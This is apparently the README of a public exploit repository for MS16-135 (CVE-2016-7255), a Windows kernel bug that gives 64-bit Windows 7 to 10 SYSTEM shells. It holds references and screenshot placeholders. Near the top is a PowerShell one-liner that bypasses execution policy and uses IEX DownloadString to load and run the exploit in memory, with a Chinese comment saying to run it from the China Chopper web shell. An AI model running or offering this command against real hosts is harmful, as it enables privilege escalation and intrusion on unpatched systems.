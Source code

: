 //菜刀下面执行 powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('MS16-135.ps1');"whoami"




# MS16-135 x64 Universal

The initial POC for this bug was based on [@TinySecEx](https://twitter.com/TinySecEx)'s post [here](https://github.com/tinysec/public/tree/master/CVE-2016-7255)!

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/en-us/library/security/ms16-135.aspx)
 * [CVE-2016-7255](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7255)

## SYSTEM Shelzz

The exploit works on all 64-bit vulnerable targets. Server versions not tested but they should work just fine.

### Windows 7

![Win7](Win7.png)

### Windows 8

![Win8](Win8.png)

### Windows 8.1

![Win81](Win81.png)

### Windows 10

![Win10](Win10.png)
